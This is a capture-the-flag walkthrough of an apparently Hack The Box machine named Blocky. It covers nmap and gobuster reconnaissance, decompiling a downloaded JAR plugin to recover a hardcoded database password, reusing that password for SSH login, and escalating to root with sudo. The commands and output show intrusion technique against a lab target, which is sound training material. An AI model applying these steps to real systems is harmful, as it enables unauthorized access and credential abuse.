



First step will be to run an `nmap` port scan:

```
$ sudo nmap -sV -sC 10.10.10.37

Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-23 14:07 CEST
Nmap scan report for 10.10.10.37
Host is up (0.0099s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp closed sophos
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.25 seconds
```

- FTP is running under the "ProFTP" software
- SSH is listening on the regular port 22
- Apache is active on port 80
- We have a strange "closed" port 8192 (remote management software "Sophos")

Fetching the web server returns a redirect:

```html
$ curl 10.10.10.37

<!DOCTYPE html PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html>
  <head>
    <title>302 Found</title>
  </head>
  <body>
    <h1>Found</h1>
    <p>The document has moved <a href="http://blocky.htb">here</a>.</p>
    <hr />
    <address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.37 Port 80</address>
  </body>
</html>
```

We'll add `10.10.10.37 blocky.htb` to `/etc/hosts` and try again:


We have a Minecraft server website, and looking around I found a Log In page with Wordpress on it:



There is 1 post by "notch":



`gobuster` directory searcher finds `/plugins`:

```bash
$ gobuster dir --url http://blocky.htb/ --wordlist /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://blocky.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 313] [--> http://blocky.htb/wp-content/]
/plugins              (Status: 301) [Size: 310] [--> http://blocky.htb/plugins/]
/wp-admin             (Status: 301) [Size: 311] [--> http://blocky.htb/wp-admin/]
/wp-includes          (Status: 301) [Size: 314] [--> http://blocky.htb/wp-includes/]
/javascript           (Status: 301) [Size: 313] [--> http://blocky.htb/javascript/]
/wiki                 (Status: 301) [Size: 307] [--> http://blocky.htb/wiki/]
/phpmyadmin           (Status: 301) [Size: 313] [--> http://blocky.htb/phpmyadmin/]
```

On this page we can find two JAR (Java) files for download:



JAR files are ZIP archives:

```bash
$ file BlockyCore.jar
BlockyCore.jar: Java archive data (JAR)

$ unzip BlockyCore.jar
Archive:  BlockyCore.jar
  inflating: META-INF/MANIFEST.MF
  inflating: com/myfirstplugin/BlockyCore.class

$ ls
com META-INF

$ ls META-INF
MANIFEST.MF

$ cat META-INF/MANIFEST.MF
Manifest-Version: 1.0


$ ls com/myfirstplugin/
BlockyCore.class

$ cat com/myfirstplugin/BlockyCore.class
<GARBAGE>
```

The `.class` file still contains unreadable compiled code. I can run it through a decompiler online:

```java
    package com.myfirstplugin;

public class BlockyCore {
   public String sqlHost = "localhost";
   public String sqlUser = "root";
   public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";

   public void onServerStart() {
   }

   public void onServerStop() {
   }

   public void onPlayerJoin() {
      this.sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
   }

   public void sendMessage(String username, String message) {
   }
}
```

There is mention of SQL credentials with password `8YsqfCTnvxAUeduzjNSXe22`. This password for the Wordpress login with the username we found (`notch`) does not work. But when I try the SSH service with the same credential I have better luck:

```bash
$ ssh notch@blocky.htb
notch@blocky.htb's password:
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:16:08 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```

We can grab the user flag:

```bash
notch@Blocky:~$ cat user.txt
2f7a8438fdef15cf786cf0795d35****
```

It is trivial to escalate our privileges on this machine. One of the first commands you should always run on Linux is `sudo -l`:

```bash
notch@Blocky:~$ sudo -l

Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

We can run all commands as root! Let's open our root session and grab that root flag:

```bash
notch@Blocky:~$ sudo -i
root@Blocky:~# cat /root/root.txt
073937b0ac9eee745668d33830d5****
```

That's it for today!
